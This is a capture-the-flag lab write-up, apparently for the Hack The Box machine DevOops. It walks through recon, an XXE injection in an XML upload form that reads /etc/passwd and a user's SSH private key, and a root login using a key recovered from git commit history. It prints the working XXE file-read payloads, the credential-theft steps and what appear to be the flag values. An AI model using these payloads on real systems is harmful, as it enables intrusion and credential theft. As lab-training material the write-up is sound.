devoops
s
nmapAutomator.sh

recon
gobusternikto
gobuster
/feed
/upload
nikto
http (port 5000) gunicorn
todo is worth notingdev.solita.fi

service is gunicorn, a python web server

/feed
allthough this page looks like a webpage written in html, its just a picture
/upload
might be able to upload a webshell here, lets check it out
test.xml
XML note in the upload page, lets try uploading a test.xml file
the webpage is mentioning an Author, Subject and Content field in its BLOGPOST note, lets write an xml file that contain those parameters
<?xml version="1.0"?>
<test>
<Author>test</Author>
<Subject>test</Subject>
<Content>test</Content>
</test>


XML XXE Injection foothold

payloadallthethings XXE
Check out payloadallthethings github link here


<?xml version="1.0"?>
<!DOCTYPE replace [<!ENTITY example “Doe”>]>
<test>
<Author>test</Author>
<Subject>test</Subject>
<Content>test</Content>
</test>


since the author entity is replaced with the string “Doe” we know our XXE exploit is working as intended, lets see if we can leak some sensitive files next...
/etc/password
applying this vulnerability to our existing exploit we just have to update the DOCTYPE variable:
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM ‘file:///etc/passwd’>]>
<test>
<Author>test</Author>
<Subject>test</Subject>
<Content>test</Content>
</test>

the server response leaks /etc/passwd!
further enumerating the server response shows us theres a user by the name of roosa
leak user.txt
we can leak user.txt by setting the system call's file to point towards /home/roosa/user.txt
/.ssh/id_rsa
lets see if we can leak the ssh key by guessing to see if roosa has an id_rsa file in her the .ssh folder of her directory
we have roosa's private key!
now we take that and save it to a file id_rsa and give it proper permissions

ssh login
we can log into roosa's account with the rsa key we leaked from the XXE Entity attack
privesc
LinEnum.shLinEnum.sh


roosa bash_history
we see there is a comment in roosa's bash_history log that notes a git upload footnote denotring that there was an accidental key commit that needed to be replaced, could that be root's private key?
git log
to look at the server's git hub upload history, usegit log


"reverted accidental commit " log
We found the commit ID that pertains to the note we saw ealier in roosa's bash_history, we can print the outputs of this commit with the ID
33e87c312c08735a02fa9c796021a4a3023129ad
git show
to show the contents of the commit, usegit show 33e87c312c08735a02fa9c796021a4a3023129ad



lets paste it on our local machine and give it proper privileges


unknown id_rsa

troublesome ‘-’'s begin every line, use :%s/-//g to globally replace all of them
where
:%s/ starts the replacement statement
/-// replaces - with nothing
g is to issue the command globally


/%s\-/ /g to remove all the dashes but don't use that here because itll mess with the BEGIN and END header and footer
ssh to root
ssh -i unknown_id_rsa 10.10.10.91
user/root
c5808e1643e801d40f09ed87cdecc67b

d4fe1e7f7187407eebdd3209cb1ac7b3
lessons learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/
https://docs.github.com/en/github/authenticating-to-github/removing-sensitive-data-from-a-repository